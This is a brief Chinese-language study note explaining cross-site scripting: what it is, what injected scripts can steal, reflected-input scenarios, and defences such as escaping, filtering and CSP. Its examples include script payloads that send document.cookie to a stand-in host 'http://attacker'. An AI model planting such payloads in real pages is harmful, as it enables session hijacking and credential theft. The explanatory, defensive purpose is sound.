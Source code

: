 # XSS

- [【译文】了解 XSS 攻击](https://zhuanlan.zhihu.com/p/21308080)

## 一、什么是 XSS

跨站点脚本（Cross-site scripting，XSS）是一种允许攻击者在另一个用户的浏览器中执行恶意脚本的脚本注入式攻击。

攻击者并不直接锁定受害者。而是利用一个受害者可能会访问的存在漏洞的网站，通过这个网站间接把恶意代码呈递给受害者。对于受害者的浏览器而言，这些恶意代码看上去就是网站正常的一部分，而网站也就无意中成了攻击者的帮凶。

## 二、恶意脚本能做啥

- **Cookie 窃取**：攻击者能够通过`document.cookie`访问受害者与网站关联的 cookie，然后传送到攻击者自己的服务器，接着从这些 cookie 中提取敏感信息，如 Session ID。
- **记录用户行为（Keylogging）**：攻击者可以使用 `addEventListener`方法注册用于监听键盘事件的回调函数，并且把所有用户的敲击行为发送到他自己的服务器，这些敲击行为可能记录着用户的敏感信息，比如密码和信用卡号码。
- **钓鱼网站（Phishing）**：攻击者可以通过修改 DOM 在页面上插入一个假的登陆框，也可以把表单的`action`属性指向他自己的服务器地址，然后欺骗用户提交自己的敏感信息。

## 三、场景

1. 用户直接文本提交，页面直接回显

```js
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```

2. 用户搜索关键字，包含脚本，页面直接先是搜索历史

```html
<!-- http://website/search?keyword=<script>...</script> -->

<html>
  You searched for:
  <script>
    window.location = 'http://attacker/?cookie=' + document.cookie
  </script>
</html>
```

3. 页面链接配置了 JavaScript:

```js
document.querySelector('a').href = 'javascript:alert(document.cookie)'
```

## 四、避免

- 编码转义
- 过滤校验
- CSP (Content Security Policy)
